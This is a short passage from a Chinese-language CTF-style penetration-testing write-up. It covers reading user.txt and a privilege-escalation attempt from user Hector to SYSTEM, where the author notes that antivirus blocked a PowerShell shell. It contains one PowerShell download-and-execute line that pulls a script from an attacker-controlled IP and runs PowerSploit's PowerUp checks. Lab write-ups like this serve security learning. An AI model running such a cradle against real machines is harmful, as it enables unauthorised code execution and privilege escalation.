 我现在可以读取 user.txt:

![](img/a195598ebd363c65101716a1dd459621.png)

从 Hector 到 System32 的权限:

我试着用 PowerShell 得到一个 shell，因为我想知道为什么我不能早点得到一个连接，看起来它被 AV 阻止了:

![](img/e2daf5288d48d7d6d4ba3592f240bf45.png)

然后我试着从 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 运行 PowerUp:

```
iex(new-object net.webclient).downloadString('[http://10.10.14.7/p.ps1'](http://10.10.14.7/p.ps1')); Invoke-AllChecks
```

![](img/7465efae415b9c8fca991b49c520d3c2.png)
